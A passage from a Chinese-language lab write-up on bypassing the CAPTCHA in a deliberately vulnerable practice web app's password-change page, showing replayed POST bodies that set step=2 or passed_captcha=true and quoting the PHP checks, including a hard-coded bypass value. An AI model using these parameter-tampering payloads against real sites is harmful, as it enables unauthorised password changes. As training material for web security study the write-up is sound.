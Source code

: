 而这两个参数都是可以通过抓包重放修改的，这里就将1改为2

![image-20221130173549203](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071440350.png)

![image-20221130174253006](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071440542.png)

攻击成功

源码分析，主要以两个if判断分为两个部分只要step为2，就可以修改成功

```php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) // 修改失败
//The CAPTCHA was incorrect. Please try again.

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) // 修改成功
//echo "<pre>Password Changed.</pre>";
```

### medium

```http
step=1&password_new=1&password_conf=1&g-recaptcha-response=&Change=Change
```

新增参数recaptcha-response

**源码分析**

发现多了对`passed_captcha`的判断，这同样是可以通过抓包重放修改的

```php
if( !$_POST[ 'passed_captcha' ] ) {
        $html     .= "<pre><br />You have not passed the CAPTCHA.</pre>";
        $hide_form = false;
        return;
    }
```

发起攻击

将参数改为

```html
step=2&password_new=1&password_conf=1&Change=Change&passed_captcha=true
```

### high

抓包找参数

```html
step=1&password_new=1&password_conf=1&g-recaptcha-response=&user_token=b40afe8549509540f680f64bbed5d3cf&Change=Change
```

**源码分析** 

```php
if (
        $resp || (
            $_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
            && $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
        )
    )
```
